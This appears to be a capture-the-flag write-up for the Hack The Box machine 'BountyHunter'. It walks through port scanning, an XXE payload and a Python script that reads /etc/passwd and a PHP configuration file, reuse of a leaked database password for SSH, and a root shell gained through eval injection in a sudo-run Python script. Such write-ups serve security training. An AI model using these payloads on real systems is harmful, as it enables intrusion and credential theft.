 ![](bountyHunter_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.100 bountyHunter.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From web server on port 80, `/portal.php` lead to `/log_submit.php`

![](screenshots/log-submit.png)

This page takes users input and send it in xml form as base64 encoded strings. 

![](screenshots/send-report.png)

![](screenshots/xml-data.png)

From gobuster found a intresting file.
```bash
gobuster dir -u "http://10.10.11.100" -w /usr/share/seclists/Discovery/Web-Content/raft-small-files-lowercase.txt

/db.php               (Status: 200) [Size: 0]
```

# Foothold

## xxe

Testing xxe and get `/etc/passwd` file from xxe payload.
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
        <bugreport>
        <title>&xxe;</title>
        <cwe>test</cwe>
        <cvss>test</cvss>
        <reward>test</reward>
        </bugreport>
```

![](screenshots/xxe-injection.png)

Simple python script to automate xxe
```py
import re
import sys
import requests as r
import base64

url = "http://10.10.11.100/tracker_diRbPr00f314.php"
payload = "php://filter/convert.base64-encode/resource=db.php"
# payload = "file:///etc/passwd"
# payload = sys.argv[1]

data = f"""<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY xxe SYSTEM "{payload}">
]>
        <bugreport>
        <title>&xxe;</title>
        <cwe>test</cwe>
        <cvss>test</cvss>
        <reward>test</reward>
        </bugreport>""".encode('ascii')

postdata = {"data": base64.b64encode(data).decode('ascii')}
rspn = r.post(url, data=postdata)
# print(rspn.text)

filter_rspn = re.findall('<td>(.*?)</td>', rspn.text, re.DOTALL)[1]
try:
    b64decode = base64.b64decode(filter_rspn).decode()
    print(bytes(b64decode, 'utf-8').decode('unicode_escape'))
except Exception:
    print(filter_rspn)
```

* Get username from `/etc/passwd`: "`development`"
* And db creds from: `db.php`: "`m19RoAU0hP41A1sTsq6K`"

database password worked for user "development" ssh login.

# Privesc

## python script logic

User "development" can run a python script `/opt/skytrain_inc/ticketValidator.py` with sudo
```bash
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

This script doing something

![](screenshots/ticket-script.png)

because script is not sanitizing input and directly send it to eval with some conditions, we only need to pass some checks and get code execuation.
```bash
# Skytrain Inc
## Ticket to hell
__Ticket Code:__
**11 + 90 == 101 and __import__('os').system('/bin/bash')
```

![](screenshots/rooted.png)